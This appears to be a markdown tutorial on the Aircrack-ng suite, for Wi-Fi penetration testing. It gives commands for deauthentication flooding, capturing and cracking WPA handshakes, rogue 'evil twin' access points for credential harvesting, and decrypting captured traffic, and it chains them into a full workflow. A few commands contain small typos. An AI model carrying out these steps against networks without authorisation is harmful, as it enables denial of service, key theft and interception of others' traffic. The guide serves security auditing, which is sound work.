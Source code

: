 ```yaml
---
icon: wifi
---
```


# Aircrack-ng Suite

## The Aircrack-ng Suite Masterclass: Professional Wi-Fi Security Auditing

The Aircrack-ng suite is the gold standard for wireless network auditing, penetration testing, and security analysis. It integrates powerful tools—airmon-ng, airodump-ng, aireplay-ng, aircrack-ng, airbase-ng, airgraph-ng, airdecap-ng, and more—each responsible for a distinct step in wireless reconnaissance, attack, and analysis.

***

### I. Core Capabilities Overview

| Tool        | Purpose                                                           |
| ----------- | ----------------------------------------------------------------- |
| airmon-ng   | Enables/controls monitor mode on wireless cards                   |
| airodump-ng | Captures raw 802.11 frames, lists networks/clients, saves packets |
| aireplay-ng | Injects traffic, replays packets for handshake/jamming/DoS        |
| aircrack-ng | Cracks WEP/WPA/WPA2-PSK using captured packets and wordlists      |
| airbase-ng  | Creates rogue APs/evil twins for MITM and client attacks          |
| airgraph-ng | Visualizes network relationships (graphing) from capture files    |
| airdecap-ng | Decrypts captured encrypted packets (WEP/WPA/WPA2)                |

***

### II. Professional Usage and Workflow Examples

#### 1. airmon-ng: Enable Monitor Mode

```bash
sudo airmon-ng start wlan0
```

* Lists interfaces and sets wlan0 to monitor mode for packet capture.\[1]\[2]\[3]

#### 2. airodump-ng: Recon and Packet Capture

```bash
sudo airodump-ng wlan0mon
```

* Displays SSIDs, BSSIDs, channels, encryption, client MACs, and saves .cap files for later analysis.\[4]\[5]\[1]
* Focus on specific AP/channel:

```bash
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write data wlan0mon
```

#### 3. aireplay-ng: Packet Injection and Attacks

```bash
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mo
```

* Sends 10 deauth packets to the target AP, forcing clients to reconnect for handshake capture.\[2]\[1]
* ARP replay, fragmentation, and fake authentication also available for WEP attacks.

#### 4. aircrack-ng: Handshake and Key Cracking

```bash
aircrack-ng -w /path/to/wordlist.txt -b AA:BB:CC:DD:EE:FF data.cap
```

* Cracks captured WEP/WPA/WPA2 handshakes using a provided wordlist.\[3]\[6]\[1]\[2]
* Supports dictionary, brute force, and custom rule sets.

#### 5. airbase-ng: Rogue AP/Evil Twin Attack

```bash
sudo airbase-ng -e "FakeWifi" -c 6 mon0
```

* Sets up a rogue AP for MITM, credential harvesting, captive portal exploits.\[7]\[1]\[2]

#### 6. airdecap-ng: Decrypt Captured Traffic

```bash
airdecap-ng -w KEY data.cap
```

* Decrypts .cap files post-crack to examine HTTP, telnet, or other unencrypted inner traffic.\[2]\[7]

#### 7. airgraph-ng: Visualize and Map Networks

```bash
airgraph-ng -i data.csv -o netgraph.png -g CAPR
```

* Processes CSV output from airodump-ng into network graphs mapping clients, APs, relationships.\[8]\[9]\[10]

***

### III. Advanced Techniques & Scenarios

* **Focused Recon:** Use channel/AP-specific filtering in airodump-ng/aireplay-ng to reduce noise and focus attacks on high-value targets.\[11]\[4]
* **Multi-Adapter Attacks:** Simultaneously capture and inject with different interfaces; increases reliability in dense environments.
* **Automated Workflows:** Script or chain all tools for hands-off assessments (monitor, recon, handshake capture, cracking, reporting).
* **Client-Side Attacks:** Leverage airbase-ng/aireplay-ng for evil twin traps, phishing portals, or forced authentication.\[2]
* **Graphing & Visualization:** Use airgraph-ng to map vulnerable clients and visualize relationships for reporting.\[8]
* **Decap & Forensics:** Post-crack analysis of traffic using airdecap-ng and Wireshark for sensitive data exposure auditing.\[7]
* **Jamming & DoS Testing:** aireplay-ng’s deauth/fakeauth for controlled denial-of-service and resilience metric testing.\[1]
* **Hybrid Integration:** Combine suite output with Kismet, Wireshark, or external scripting for extended analysis and evidence.

***

### IV. Real-World Workflow Example

1. **Enable Monitor Mode**

```bash
airmon-ng start wlan0
```

1. **Recon + Capture Handshake**

```bash
airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 11 --write handshake wlan0mon
```

1. **Deauthenticate for Forced Handshake**

```bash
aireplay-ng --deauth 25 -a AA:BB:CC:DD:EE:FF wlan0mon
```

1. **Crack Key**

```bash
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF handshake.cap
```

1. **Decrypt and Analyze Traffic**

```bash
airdecap-ng -w crackedkey handshake.cap
wireshark handshake-dec.cap
```

1. **Graph Relationships**

```bash
airgraph-ng -i handshake.csv -o wifi-graph.png -g CAPR
```

***

### V. Pro Tips & Best Practices

* Use high-perf adapters supporting monitor/injection.
* Set precise channels and filter clients for focused attacks.
* Always export relevant PCAP/CSV for evidence and reporting.
* Combine cracked traffic with Wireshark for sensitive data auditing.
* Respect legal boundaries—only audit networks with explicit authorization.
* Regularly update suite and drivers for protocol/EAP compatibility.
* Automate repetitive tasks with bash/scripts; use graphs for client reporting.

***

This guide arms wireless security professionals with the full power of the Aircrack-ng suite, allowing for rapid, accurate, and deep wireless penetration testing from network discovery to reporting and post-exploitation.\[5]\[6]\[10]\[3]\[4]\[1]\[8]\[2]

Sources \[1] How to Use Aircrack-ng: A Guide to Network Compromise [https://www.stationx.net/how-to-use-aircrack-ng-tutorial/](https://www.stationx.net/how-to-use-aircrack-ng-tutorial/) \[2] Aircrack-ng - addielamarr [https://publish.obsidian.md/addielamarr/Aircrack-ng](https://publish.obsidian.md/addielamarr/Aircrack-ng) \[3] Mastering Wireless Security: A Deep Dive into Aircrack-ng ... [https://securewithsiva.in/post/08-aircrack-ng/](https://securewithsiva.in/post/08-aircrack-ng/) \[4] Airodump-ng for Beginners: Scanning and Monitoring Wi-Fi ... [https://dev.to/rijultp/airodump-ng-for-beginners-scanning-and-monitoring-wi-fi-networks-377d](https://dev.to/rijultp/airodump-ng-for-beginners-scanning-and-monitoring-wi-fi-networks-377d) \[5] Airodump-ng [https://www.aircrack-ng.org/doku.php?id=airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng) \[6] Utilizing Aircrack-Ng in Termux: Comprehensive Guide for ... [https://dev.to/terminaltools/utilizing-aircrack-ng-in-termux-comprehensive-guide-for-wi-fi-network-security-l8h](https://dev.to/terminaltools/utilizing-aircrack-ng-in-termux-comprehensive-guide-for-wi-fi-network-security-l8h) \[7] Main documentation [https://www.aircrack-ng.org/documentation.html](https://www.aircrack-ng.org/documentation.html) \[8] Visualize WiFi Relationships with AirGraph-ng | HakByte [https://www.youtube.com/watch?v=wvRdeFGuHMc](https://www.youtube.com/watch?v=wvRdeFGuHMc) \[9] Signal Intelligence with a Raspberry Pi and AirGraph-NG ... [https://www.instagram.com/p/C-yiqA0ANxU/](https://www.instagram.com/p/C-yiqA0ANxU/) \[10] airgraph-ng \[Aircrack-ng] [https://www.aircrack-ng.org/doku.php?id=airgraph-ng](https://www.aircrack-ng.org/doku.php?id=airgraph-ng) \[11] Advanced WiFi Scanning with Aircrack-NG [https://www.youtube.com/watch?v=uKZb3D-PHS0](https://www.youtube.com/watch?v=uKZb3D-PHS0)
